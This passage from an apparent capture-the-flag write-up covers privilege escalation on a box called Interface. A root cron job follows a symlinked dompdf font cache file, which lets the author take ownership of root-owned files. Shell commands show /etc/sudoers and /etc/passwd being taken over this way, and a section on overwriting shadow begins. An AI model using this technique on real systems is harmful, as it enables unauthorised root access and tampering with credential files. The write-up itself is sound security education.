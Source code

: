 To test, I’ll make this file into a symlink that points to an unimportant
file, `/tmp/0xdf`:

    
    
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ln -sf /tmp/0xdf dompdf_font_family_cache.php
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls -l dompdf_font_family_cache.php
    lrwxrwxrwx 1 www-data www-data 9 Feb 13 20:53 dompdf_font_family_cache.php -> /tmp/0xdf
    

When the five-minute cron runs, `/tmp/0xdf` is there:

    
    
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls -l /tmp/0xdf 
    -rwxrwxrwx 1 www-data www-data 2863 Feb 13 20:55 /tmp/0xdf
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ head /tmp/0xdf
    <?php return function ($fontDir, $rootDir) {
    return array (
      'sans-serif' => array(
        'normal' => $fontDir . '/Helvetica',
        'bold' => $fontDir . '/Helvetica-Bold',
        'italic' => $fontDir . '/Helvetica-Oblique',
        'bold_italic' => $fontDir . '/Helvetica-BoldOblique',
      ),
      'times' => array(
        'normal' => $fontDir . '/Times-Roman',
    

It’s owned by www-data, and has a clean version of the expected file.

### Overwrite shadow

#### File Fails

There are a handful of root owned files that I could overwrite to get
execution, but many come with reasons why they won’t work. For example,
`/etc/sudoers` won’t work unless it’s owned by root:

    
    
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ sudo -l
    sudo: /etc/sudoers is owned by uid 33, should be 0
    sudo: no valid sudoers sources found, quitting
    sudo: unable to initialize policy plugin
    

Similarly, `/root/.ssh/authorized_keys` will just be ignored unless it’s owned
by root and permissions 600.

I can try `/etc/passwd`, but it breaks things, and doesn’t quite work. The
group changes, but the user does not:

    
    
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ln -sf /etc/passwd dompdf_font_family_cache.php          
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls -l /etc/passwd
    -rw-r--r-- 1 root www-data 2863 Feb 13 21:10 /etc/passwd
    